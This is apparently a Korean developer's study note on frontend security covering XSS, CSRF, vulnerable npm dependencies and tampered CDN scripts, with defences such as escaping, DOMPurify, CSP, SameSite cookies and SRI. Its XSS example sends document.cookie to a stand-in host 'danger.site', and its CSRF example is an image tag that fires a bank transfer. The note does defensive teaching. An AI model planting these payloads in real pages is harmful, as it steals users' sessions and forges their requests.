 # 🔐 프론트엔드 보안 요약 정리

## 1. 🧨 XSS (Cross-site Scripting)

📌 정의
사용자가 입력한 악성 스크립트가 escape 처리 없이 DOM에 삽입되어,
브라우저에서 실제 JS 코드로 실행되는 공격.

💥 공격 예시

```html
<script>
  fetch("https://danger.site/steal?c=" + document.cookie);
</script>
```

🛡️ 대응 방법

✅ HTML Escape (기본 방어)

React/Vue에서 기본적으로 {}로 출력 시 escape 처리됨

`<script>`가 단순 텍스트로 보임

- ex) ` <script>alert()</script>`-> `&lt;script&gt;alert()&lt;/script&gt;`

✅ DOMPurify (콘텐츠 정화) (라이브러리)

사용자가 작성한 HTML을 dangerouslySetInnerHTML, v-html 등으로 렌더링할 때 사용

```tsx
import DOMPurify from "dompurify";

const cleanHTML = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: cleanHTML }} />;
```

✅ CSP (Content Security Policy)

외부 스크립트 및 인라인 `<script>` 실행 자체를 차단

```http
Content-Security-Policy: script-src 'self'; // 현재 도메인만 로드 가능
object-src 'none'; // 외부 플러그인 차단
frame-ancestors 'none'; // Clickjacking 차단
```

- Clickjacking이란?

  사용자에게 진짜처럼 보이는 버튼을 보여주고, 실제로는 투명 iframe 위에 올려놓아서
  민감한 작업 (예: 구매, 이체, 삭제 등)을 유도하는 공격

## 2. 💥 CSRF (Cross-site Request Forgery)

📌 정의

로그인된 사용자가 악성 사이트를 방문했을 때,
그 사용자의 세션 쿠키로 무단 요청이 전송되는 공격.

💥 공격 예시

```html
<img src="https://bank.com/transfer?to=hacker&amount=100000" />
```

🛡️ 대응 방법

| 방법                 | 설명                                                |
| -------------------- | --------------------------------------------------- |
| `SameSite` 쿠키 설정 | `Strict` 또는 `Lax` 설정으로 Cross-Origin 요청 차단 |
| CSRF Token 적용      | 서버가 발급한 CSRF 토큰을 함께 요청해야 처리        |
| Referer 검사         | 요청의 출처를 서버에서 확인하여 차단 가능           |

## 3. 📦 패키지 의존성

📌 정의

npm/yarn 등으로 설치한 외부 라이브러리에 알려진 취약점이 포함될 경우,
서비스 전체 보안에 악영향을 줄 수 있음.

🛡️ 대응 방법

✅ 의존성 감사

```bash
npm audit
pnpm audit
yarn audit
```

✅ Snyk, Socket.dev 사용

GitHub, GitLab CI 연동으로 지속적인 취약점 모니터링

✅ 최소 의존성 유지

불필요한 모듈 제거

최신 버전 유지 (npm outdated, npm update)

## 4. 🌐 CDN 스크립트 취약성

📌 정의

외부 CDN에서 불러오는 JS 파일이 변조되었을 경우,
사용자 브라우저에서 악성 코드가 실행될 수 있음.

🛡️ 대응 방법

Subresource Integrity (SRI) 적용 integrity 속성으로 변조된 리소스 로딩 차단

```html
<script
  src="https://cdn.example.com/lib.js"
  integrity="sha384-abc123..."
  crossorigin="anonymous"
></script>
```

| 방법                             | 설명                                         |
| -------------------------------- | -------------------------------------------- |
| Subresource Integrity (SRI) 적용 | `integrity` 속성으로 변조된 리소스 로딩 차단 |
| 자체 번들링 권장                 | Webpack/Vite로 CDN 대신 로컬 패키지 사용     |
| CSP로 CDN 제한                   | `script-src`에 명시적으로 허용된 출처만 사용 |

📁 요약(공격별 대응 방법)

XSS: escape, DOMPurify, CSP

CSRF: SameSite, Token, Referer 검사

패키지 취약점: audit, Snyk, 최소 의존성

CDN: SRI, CSP, 자체 번들링
